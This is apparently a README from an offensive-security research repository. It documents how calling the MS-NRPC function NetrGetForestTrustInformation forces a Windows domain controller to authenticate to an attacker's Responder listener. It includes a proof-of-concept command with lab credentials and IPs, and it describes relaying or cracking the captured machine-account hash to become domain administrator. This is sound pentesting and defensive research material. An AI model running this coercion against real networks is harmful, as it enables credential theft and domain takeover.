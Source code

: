 # MS-NRPC - Remote call to NetrGetForestTrustInformation (opnum 44)

## Summary

+ **Protocol**: [[MS-NRPC]: Netlogon Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f)

+ **Protocol UUID**: 12345678-1234-abcd-ef00-01234567cffb

+ **Protocol version**: 1.0

+ **SMB Named pipe**: `\PIPE\NETLOGON`

+ **Function name**: [`NetrGetForestTrustInformation`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/63bab11c-a902-44a2-9cd7-221357788483)

+ **Function operation number**: `44`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\NETLOGON` and bind to the desired [`MS-NRPC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) protocol (with uuid `12345678-1234-abcd-ef00-01234567cffb` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-NRPC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\NETLOGON` This pipe is connected to the protocol [[MS-NRPC]: Netlogon Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) and allows to call RPC functions of this protocol. We will then call the remote [`NetrGetForestTrustInformation`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/63bab11c-a902-44a2-9cd7-221357788483) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrGetForestTrustInformation('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NTSTATUS NetrGetForestTrustInformation(
   [in, unique, string] LOGONSRV_HANDLE ServerName,
   [in, string] wchar_t* ComputerName,
   [in] PNETLOGON_AUTHENTICATOR Authenticator,
   [out] PNETLOGON_AUTHENTICATOR ReturnAuthenticator,
   [in] DWORD Flags,
   [out] PLSA_FOREST_TRUST_INFORMATION* ForestTrustInfo
 );
```

## References

+ Documentation of protocol [MS-NRPC]: Netlogon Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f

+ Documentation of function `NetrGetForestTrustInformation`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/63bab11c-a902-44a2-9cd7-221357788483